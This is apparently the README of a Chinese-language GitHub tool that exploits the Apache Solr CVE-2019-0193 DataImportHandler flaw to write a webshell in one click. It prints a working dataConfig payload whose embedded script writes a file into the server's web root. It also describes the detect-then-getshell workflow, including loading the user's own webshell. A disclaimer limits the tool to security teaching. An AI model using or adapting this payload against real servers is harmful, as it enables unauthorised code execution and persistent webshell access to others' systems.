 # 项目声明
只用于信息安全教学交流，请勿用于非法测试和攻击。

# ApacheSolrRCE
ApacheSolrRCE（CVE-2019-0193）一键写shell，原理是通过代码执行的java文件流写的马。

[Apache-Solr-CVE-2019-0193-漏洞利用](https://jdr2021.github.io/2022/09/12/Apache-Solr-CVE-2019-0193-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/)

注：作者本人比较菜，如果你有bug或者有别的需求，请自行下载代码修改。


# 工具说明
由于互联网上流传的payload都是命令执行，且不方便上webshell，因此写了这段payload（回显123456时，代表写入成功）。

注：工具只能辅助测试，如果工具写不进去，建议手写。

```
<dataConfig>
<dataSource name="streamsrc" type="ContentStreamDataSource" loggerLevel="TRACE" />
  <script><![CDATA[
          function poc(row){
var buf = new java.io.BufferedWriter(new java.io.FileWriter(java.net.URLDecoder.decode(java.lang.Thread.currentThread().getContextClassLoader().getResource("").getPath().toString().replaceAll("file:\/", "").split("WEB-INF")[0]+"1.txt")));buf.write(new java.lang.String(java.util.Base64.getDecoder().decode("MTIzNDU2")));buf.close();
row.put("title",123456);
return row;

}

]]></script>

<document>
    <entity
        stream="true"
        name="entity1"
        datasource="streamsrc1"
        processor="XPathEntityProcessor"
        rootEntity="true"
        forEach="/RDF/item"
        transformer="script:poc">
             <field column="title" xpath="/RDF/item/title" />
    </entity>
</document>
</dataConfig>
```
# 工具用法

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663056645344.jpg">

先点检测，获得core，并且判断有没有漏洞。

在点击getshell即可。

注：将你的webshell，放在shell目录下，工具会自动加载你的webshell至下拉列表中。

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663056948552.jpg">

默认代理是http代理，端口是8080，代码里面写死了的，需要的自己编译修改即可。

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663057045317.jpg">


# 特别感谢

[solr_exploit](https://github.com/1135/solr_exploit)
